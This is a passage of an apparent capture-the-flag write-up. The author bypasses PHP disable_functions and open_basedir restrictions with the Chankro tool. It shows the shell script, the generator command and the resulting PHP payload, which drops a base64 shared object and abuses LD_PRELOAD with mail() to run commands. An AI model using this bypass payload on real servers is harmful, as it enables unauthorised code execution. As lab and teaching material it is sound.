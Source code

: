 * everybody can execute it
* just the owner can write it, the owner being root

But how can I execute it if I can't use any of the regular system calls?

I tried then to email the file to me and to exfiltrate it by variously failing techniques.

> That's when I almost gave up.

I left this challenge a few days, thinking I would never succeed at it.

## Last chance

Then I started reading about automating the `open_basedir` restriction bypass and that's when I encountered [Chankro](https://github.com/TarlogicSecurity/Chankro):

> Your favourite tool to bypass disable_functions and open_basedir in your pentests.

OK, sounds like it's for me! Chankro expects a few parameters:

* A script to be executed: `--input`
* An output php script: `--output`
* And a path where the output script will be located: `--path`

Let's do this!

**First create a flag.sh script:**

```bash
#!/bin/bash
# Just execute the flag executable and output to a file I can read
/home/flag > /var/www/html/upload/4df6956c92a14c5014f891c9017d050bc6d7772b6eab4172726938a124c38e01/flag2
```

**Then launch Chankro to generate the output file**

```bash
$ python chankro.py --arch 64 --input shell.sh --output sample.php --path /var/www/html/upload/4df6956c92a14c5014f891c9017d050bc6d7772b6eab4172726938a124c38e01
```

**Then see what's in the file...**

```php
<?php

$hook = 'f0VMRgIBAQAAAAAAAAAAAAMAPgABAAAA4AcAAAAAAABAAAAAAAAAAPgZAAAAAAAAAAAAAEAAOAAHAEAAHQAcAAEAAAAFAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAbAoAAAAAAABsCgAAAAAAAAAAIAAAAAAAAQAAAAYAAAD4DQA...';
$meterpreter = 'IyEvYmluL2Jhc2gKL2hvbWUvZmxhZyA+IC92YXIvd3d3L2h0bWwvdXBsb2FkLzRkZjY5NTZjOTJhMTRjNTAxNGY4OTFjOTAxN2QwNTBiYzZkNzc3MmI2ZWFiNDE3MjcyNjkzOGExMjRjMzhlMDEvZmxhZzIK';
file_put_contents('/var/www/html/upload/4df6956c92a14c5014f891c9017d050bc6d7772b6eab4172726938a124c38e01/chankro.so', base64_decode($hook));
file_put_contents('/var/www/html/upload/4df6956c92a14c5014f891c9017d050bc6d7772b6eab4172726938a124c38e01/acpid.socket', base64_decode($meterpreter));
putenv('CHANKRO=/var/www/html/upload/4df6956c92a14c5014f891c9017d050bc6d7772b6eab4172726938a124c38e01/acpid.socket');
putenv('LD_PRELOAD=/var/www/html/upload/4df6956c92a14c5014f891c9017d050bc6d7772b6eab4172726938a124c38e01/chankro.so');
mail('a','a','a','a');

?>
```
